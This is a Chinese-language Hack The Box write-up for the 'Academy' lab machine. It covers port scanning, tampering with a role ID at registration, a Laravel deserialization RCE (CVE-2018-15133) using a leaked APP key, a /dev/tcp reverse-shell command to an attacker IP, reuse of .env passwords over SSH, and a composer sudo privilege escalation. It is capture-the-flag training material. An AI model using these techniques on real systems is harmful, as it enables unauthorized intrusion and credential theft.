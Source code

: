 ## 端口扫描

首先常规nmap扫描

```
nmap -o nmapinitial -sC -sV -sT -Pn 10.10.10.215
```

![image-20210220003213124](https://static.hack1s.fun/images/2021/02/19/image-20210220003213124.png)

发现开了80和22

浏览器访问80发现需要改一下hosts

```bash
vim /etc/hosts
```

在里面最下面加上

```
10.10.10.215 academy.htb
```



## www-data

之后在访问发现就是一个登录窗口

![image-20210220003412088](https://static.hack1s.fun/images/2021/02/19/image-20210220003412088.png)

可以注册登录

注册页面用burp抓包发现全部都是明文

![image-20210220003742397](https://static.hack1s.fun/images/2021/02/19/image-20210220003742397.png)

这个roleid看着比较可疑，注册时改成1之后可以用这个用户去访问`admin.php`

![image-20210220004427846](https://static.hack1s.fun/images/2021/02/19/image-20210220004427846.png)

在这个页面又看到了一个新的二级域名

访问之后像是一个debug界面

![image-20210220005817653](https://static.hack1s.fun/images/2021/02/19/image-20210220005817653.png)

这个页面里面能发现服务用的是monolog、laravel

在searchsploit搜一下

![image-20210220010135794](https://static.hack1s.fun/images/2021/02/19/image-20210220010135794.png)

发现有一个RCE，可以尝试一下

msf里头的这个运行之后一直提示无法创建session

github搜到这个CVE的exp

https://github.com/aljavier/exploit_laravel_cve-2018-15133

在上面那个http://dev-staging-01.academy.htb里面首先可以找到有的报错信息中含有APP Key

拿着这个key和exp的脚本运行命令

```bash
'bash -i > &/dev/tcp/10.10.14.135/1234 0>&1'
```

本地再开一个终端用nc监听

```bash
nc -lvvp 1234
```

但是不知道为啥有连接，但是没有办法交互，只能用exp慢慢执行命令了



## user

发现在`/var/www/html/academy/.env`里面有一些配置的密码

![image-20210220015942316](https://static.hack1s.fun/images/2021/02/19/image-20210220015942316.png)

按照Hack The Box的靶机习惯，感觉这个mySup3rP4s5w0rd!!可能是哪个用户的密码，至少在哪里能用到；

之后查看`/etc/passwd`发现了一些比较像用户级用户的名称

![image-20210220020123831](https://static.hack1s.fun/images/2021/02/19/image-20210220020123831.png)

这里面用这个密码连`cry0l1t3`这个用户发现可以ssh连上

之后就拿到user.txt的flag



## root

想要查看passwd，结果发现这个用户不在wheel组，没有sudo权限

![image-20210220020413701](https://static.hack1s.fun/images/2021/02/19/image-20210220020413701.png)

传了个提权脚本https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite.git

扫描到一个密码

![image-20210220021551396](https://static.hack1s.fun/images/2021/02/19/image-20210220021551396.png)

用户名`mrb3n`密码`mrb3n_Ac@d3my!`

登录这个用户之后执行

`sudo -l`

![image-20210220021920063](https://static.hack1s.fun/images/2021/02/19/image-20210220021920063.png)

看到composer具有sudo权限

在GTFObins里搜索composer https://gtfobins.github.io/gtfobins/composer/

把GTFObins里面那段代码跑一遍就提权了

![image-20210220022153764](https://static.hack1s.fun/images/2021/02/19/image-20210220022153764.png)

之后拿到root的flag

